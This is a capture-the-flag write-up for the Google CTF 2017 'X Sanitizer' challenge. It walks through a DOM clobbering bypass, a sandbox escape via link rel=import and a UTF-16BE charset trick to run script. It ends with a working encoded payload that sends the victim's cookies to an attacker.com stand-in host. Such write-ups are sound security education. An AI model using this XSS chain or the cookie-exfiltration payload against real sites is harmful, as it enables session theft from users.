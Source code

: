 # Google CTF 2017 - The X Sanitizer


## Challenge

```
This is the smallest (50 lines with comments) secure client side HTML sanitizer
on the market today. When using this sanitizer, script tags remove themselves.
Sounds too good to be true? Take a look and prove us wrong if you can.
```

Like most things touting to be secure, it turned out to indeed be too good to be
true. The (simplified) logic of the main page was as follows:

0. Set CSP to `default-src 'self'` (e.g. all content must be from the current
   origin)
0. Get the input value and send it to `sanitize()`
0. Get the output of the sanitizer
0. Set the innerHTML of a div below `Rendered sanitized HTML` to the sanitized
   value

Seems alright. The sanitize function worked in the following manner:

0. Strip `/meta|srcdoc|utf-16be/i`
0. Create an invisible "sandbox" iFrame
0. Append it to the page, and create a message handler to retrieve the output
0. Upon receiving a message, remove the iFrame and send back the result

Additionally, a Service Worker was initialised, which acted as a proxy to all
requests, and prevented external requests when the current window was inside of
the sandbox.

Fetching the sandbox would return the following response, which was then
appended with the input data. For example, loading `/sandbox?html=foo` would
return:

```html
<!doctype HTML>
<script src=sanitize>
</script>
<body>foo
```

Additionally, the following headers were set:

```
X-XSS-Protection: 0
Content-Type: text/html
```

The referenced `sanitize` script was defined as the following:

```javascript
onload = _=> setTimeout(_=> parent.postMessage(document.body.innerHTML, location.origin), 1000);
remove = node => (node == document) ? document.body.innerHTML = '' : node.parentNode.removeChild(node);
document.addEventListener("securitypolicyviolation", e => remove(e.target));
document.write('<meta http-equiv="Content-Security-Policy" content="default-src \\'none\\'; script-src *"><body>');
```

Essentially, this would:

0. Send the current document's `body` back to the main window after 1 second
0. Define a function to remove "bad" nodes
0. Define a handler to remove nodes which violate the CSP
0. Define a CSP permitting nothing by default, but whitelisting `script`
   `link rel=import` to arbitrary sources

Loading any resource except for `/sanitize` while still in the sandbox would
result in the following response:

```
with(document) remove(document === currentScript.ownerDocument ?  currentScript : querySelector('link[rel="import"]'));
// <script src=x></script>
```

So! Given the example text:

```
This is the <s>perfect</s><b>best</b>
<script>alert(document.domain);</script>
<i>HTML sanitizer</i>.
<script src="https://example.com"></script>
```

The following output was returned:

```
This is the <s>perfect</s><b>best</b>

<i>HTML sanitizer</i>.

```

This was quite densely packed with a lot of moving parts for such a small
application.


## Solution


### DOM Clobbering

The first flaw was in the weak declaration of the `remove()` function within the
`/sanitize` script. Were a tag with a name of `remove` sent as input,
`document.remove` will be defined as a reference to that node. The declaration
of the remove function will now fail, as when trying to reference `remove` it
will already be pointing to our node. The assignment of a function to a node
will fail and the script will no longer remove elements.

This allows us to sneak in keeping some elements that are still permitted by
the CSP, such as sending the following:

```
<img name="remove">This is the <s>perfect</s><b>best</b>
<script>alert(document.domain);</script>
<i>HTML sanitizer</i>.
<script src="https://example.com"></script>
```

You now get back the following:

```
<img name="remove">This is the <s>perfect</s><b>best</b>

<i>HTML sanitizer</i>.
<script src="https://example.com"></script>
```


### Sandbox Escape

I spent way too long on this part :( Seeing that I was going to need arbitrary
script content at some point, I was going down the path of trying to bypass the
sandbox by somehow looking as if I were outside the sandbox enough to load
external scripts and appease the more lax CSP using `base` tags or something
weird like that. Unfortunately (or fortunately?), this was not needed at all.

The trick here is that we are now able to add arbitrary HTML content to the
main page through the sanitizer, but we are still bound by the CSP `self`
declaration. Despite this, we can use a `<link rel="import">` to include the
`/sandbox` again. As we are now outside of the sandbox, the `/sanitizer` script
will fail to load and we will be able to add (mostly) arbitrary content to the
main page.

```
<img name="remove">
<link rel="import" href="/sandbox?html={{ encodeURIComponent(content) }}">
```

### Content Spoofing

We now need a way to load arbitrary scripts which pass the CSP `self`. The only
page really available other than the main page is `/sandbox`, which is clearly
HTML content. Despite this, the Service Worker adds a header of
`Content-Type: text/html`, which is missing a charset. Due to this, we are able
to source the page as a script with a charset of UTF-16BE which will coerce the
content into the string
`㰡摯捴祰攠䡔䵌㸊㱳捲楰琠獲挽獡湩瑩穥㸊㰯獣物灴㸊㱢潤社`, which is actually a
valid JavaScript variable name (as per
[this](http://blog.portswigger.net/2016/11/json-hijacking-for-modern-web.html)
blog post by [@garethheyes](https://twitter.com/garethheyes)).

```
<script charset="utf-16be" src="/sandbox?html={{ encodeURIComponent(encode(content)) }}"></script>
```

Note that `utf-16be` is a blacklisted word; however, we can just URL encode the
statement to bypass this.

To begin running arbitrary JavaScript, we just need to append the string with an
assignment to finish the statement. For example, the following payload will pop
an alert with `sanitizer.web.ctfcompetition.com`:

```php
<?php echo urlencode(mb_convert_encoding("=1;\nalert(document.domain);", "UTF-16BE")); ?>
<!-- %00%3D%001%00%3B%00%2F%00%2F%00%0A%00a%00l%00e%00r%00t%00%28%00d%00o%00c%00u%00m%00e%00n%00t%00.%00d%00o%00m%00a%00i%00n%00%29%00%3B -->
```


### Payload

We can get the target to send us their cookies by visiting an attacker page,
such as the following payload:

```javascript
document.location="http://attacker.com?"+encodeURIComponent(document.cookie);
```


### Submission

Putting it all together, we get this monstrosity:

```html
<img name="remove">
<link rel="import" href="/sandbox?html=%3Cscript%20charset%3D%22%75%74%66%2d%31%36%62%65%22%20src%3D%22%2Fsandbox%3Fhtml%3D%2500%253D%25001%2500%253B%2500%250A%2500d%2500o%2500c%2500u%2500m%2500e%2500n%2500t%2500.%2500l%2500o%2500c%2500a%2500t%2500i%2500o%2500n%2500%253D%2500%2522%2500h%2500t%2500t%2500p%2500%253A%2500%252F%2500%252F%2500a%2500t%2500t%2500a%2500c%2500k%2500e%2500r%2500.%2500c%2500o%2500m%2500%253F%2500%2522%2500%252B%2500e%2500n%2500c%2500o%2500d%2500e%2500U%2500R%2500I%2500C%2500o%2500m%2500p%2500o%2500n%2500e%2500n%2500t%2500%2528%2500d%2500o%2500c%2500u%2500m%2500e%2500n%2500t%2500.%2500c%2500o%2500o%2500k%2500i%2500e%2500%2529%2500%253B%22%3E%3C%2Fscript%3E">
```

Submit the solution and wait for the flag to show up in the server logs :)
